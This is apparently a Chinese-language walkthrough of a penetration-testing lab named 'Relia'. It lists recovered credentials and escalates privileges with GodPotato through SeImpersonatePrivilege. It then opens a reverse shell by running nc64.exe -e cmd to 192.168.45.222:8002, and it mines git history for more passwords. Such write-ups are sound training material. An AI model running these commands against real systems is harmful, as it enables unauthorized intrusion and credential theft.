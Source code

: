 其中有一个密码`damon:i6yuT6tym@`，并且该用户是系统管理员组

开放了5859端口，利用这个密码可以直接连接

该用户有`SeImpersonatePrivilege`权限，也可以通过`GodPotato-NET4.exe`提权

![image-20250914172204214](./Challenge%202%20-%20Relia/image-20250914172204214.png)

```
GodPotato-NET4.exe -cmd "cmd /c whoami"

.\GodPotato-NET4.exe -cmd "cmd /c C:\xampp\htdocs\cms\media\nc64.exe -e cmd 192.168.45.222 8002"
```

`C:\staging`下有个隐藏目录`.git`，通过`git log`和`git show `查看历史提交记录

![image-20250914173631573](./Challenge%202%20-%20Relia/image-20250914173631573.png)

其中有一组密码和新用户

maildmz@relia.com:DPuBT9tGCBrTbR

还有新用户jim@relia.com，这个人负责邮件服务器，有问题给他发邮件

# 192.168.*.189

